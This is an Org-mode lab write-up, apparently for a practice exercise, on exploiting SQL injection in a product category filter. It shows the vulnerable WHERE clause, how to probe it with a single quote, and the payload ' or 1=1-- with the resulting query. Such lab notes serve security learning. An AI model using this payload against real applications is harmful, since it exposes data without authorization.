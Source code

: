 #+title: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
#+description: Mindmap to solve this lab
#+author: Touhidul Shawan

* Lab Title
~SQL injection vulnerability in WHERE clause allowing retrieval of hidden data~

** SQL Injection on
~category~ filter

** Query
#+begin_SRC sql options
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
#+end_SRC sql

** End Goal
+ display details of all products

* Steps
Check for sql injection exists or not by inserting ~'~ in the last of url.
+ sql injection exist -> give an error || not exist -> no error

** Inject Query
we can test with ~' or 1=1--~
#+begin_SRC sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
#+end_SRC sql
will become
#+begin_SRC sql options
SELECT * FROM products WHERE category = '' or 1=1 --' AND released = 1
#+end_SRC sql

